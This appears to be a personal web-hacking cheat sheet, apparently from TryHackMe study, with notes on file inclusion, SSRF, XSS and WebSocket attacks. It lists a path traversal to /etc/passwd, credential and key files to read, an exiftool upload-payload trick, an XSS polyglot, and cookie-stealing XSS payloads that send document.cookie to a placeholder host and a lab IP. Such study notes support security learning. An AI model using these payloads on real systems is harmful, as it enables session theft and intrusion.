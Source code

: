 ## File inclusion
- insecure input validation
- path traversal: ../../../etc/passwd
- Important files
  - /etc/issue - system identification
  - /etc/profile - default variables terminal
  - /proc/version - kernen versel
  - /etc/shadow - users password
  - /root/.bash_history
  - /var/log/dmessage
  - /root/.ssh/id_rsa = private rsa key
  - /var/log/apache2/access.log
  - C:\boot.ini (windows)

- null byte = %00, injection (terminate string)
- curl -X METHOD -d [data]
  - -k ignore secure connection
  - -vvv
- magic numbers
- double extension
- exiftools -Comment=PAYLOAD picture.jgp.php ==> Comments!!!

## SSRF
- Server-Side Request Forgery
- Where? 
  - Full Paramter in the address bar ("value="http..../name")
  - partial URL
  - Blind: requestbin.com
  - ../ => directory trasversal
  - &x= ==> ignore everything that comes after that

## XSS
- Cross-Site Scripting
- test: parameters, URL File Path, HTTP Headers
- in js onload event within a tag
- Polyglot: jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
- Payload for shell: </textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
-                    </textarea><script>fetch('http://10.8.80.130:1234?cookie=' + btoa(document.cookie) );</script> 

## Websocket
- Bidirectional
- Exploit message content
- Change "X-Forwarded-For" header
- Cross-site WebSockets
  - cross domain connection
  